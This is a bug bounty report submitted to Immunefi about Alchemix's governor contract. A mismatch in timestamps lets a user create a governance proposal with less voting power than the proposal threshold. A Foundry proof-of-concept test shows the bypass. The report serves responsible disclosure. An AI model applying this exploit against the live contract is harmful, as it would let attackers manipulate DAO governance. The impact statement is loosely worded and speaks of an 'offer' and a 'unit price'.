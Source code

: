 
# The user can propose with less voting power than proposalThreshold.

Submitted on May 16th 2024 at 03:55:34 UTC by @cryptoticky for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31277

Report type: Smart Contract

Report severity: Insight

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/AlchemixGovernor.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
The user can propose with less voting power than proposalThreshold.

## Vulnerability Details
This error arises from the difference between the timing of calculating votingPower and proposalThreshold.

L2Governor.sol
```
require(
            getVotes(_msgSender(), block.timestamp - 1) >= proposalThreshold(),
            "Governor: veALCX power below proposal threshold"
        );
```
the votingPower is calculated at `block.timestamp - 1`.

but 
```
function proposalThreshold() public view override(L2Governor) returns (uint256) {
        return (token.getPastTotalSupply(block.timestamp) * proposalNumerator) / PROPOSAL_DENOMINATOR;
    }
```
`proposalThreshold` is calculated at `block.timestamp`
In `block.timestamp`, `VotingEscrow.totalSupplyAtT` becomes smaller than at `block.timestamp - 1` point.
If a withdraw occurs at this point, it makes more changes.
An attacker may artificially carry out withdraw to make the `VotingEscrow.totalSupplyAtT` smaller.
Or the attacker can propose in the same transaction as soon as a user withdraw a large amount.

## Impact Details
By lowering the minimum unit price to create an offer, it makes it easier for an attacker to generate a malicious offer.


## Proof of Concept

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract AlchemixGovernorPoCTest is BaseTest {
    function setUp() public {
        setupContracts(block.timestamp);
    }

    function craftTestProposal()
    internal
    view
    returns (address[] memory targets, uint256[] memory values, bytes[] memory calldatas, string memory description)
    {
        targets = new address[](1);
        targets[0] = address(voter);
        values = new uint256[](1);
        values[0] = 0;
        calldatas = new bytes[](1);
        calldatas[0] = abi.encodeWithSelector(voter.whitelist.selector, usdc);
        description = "Whitelist USDC";
    }

    function testProposePoC1() public {
        uint256 targetTokenId = createVeAlcx(admin, TOKEN_1 * 4 - 5000, MAXTIME, false);
        uint256 userTokenId = createVeAlcx(beef, TOKEN_1 * 96, MAXTIME, false);
        uint256 votingPower = governor.getVotes(admin, block.timestamp);
        uint256 proposalThreshold = governor.proposalThreshold();

        // votingPower < proposalThreshold
        assertLt(votingPower, proposalThreshold, "votingPower >= proposalThreshold");

        hevm.startPrank(admin);

        hevm.warp(block.timestamp + 1);

        (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();
        // this call is not failed.
        governor.propose(t, v, c, d, MAINNET);

        hevm.stopPrank();
    }

}
```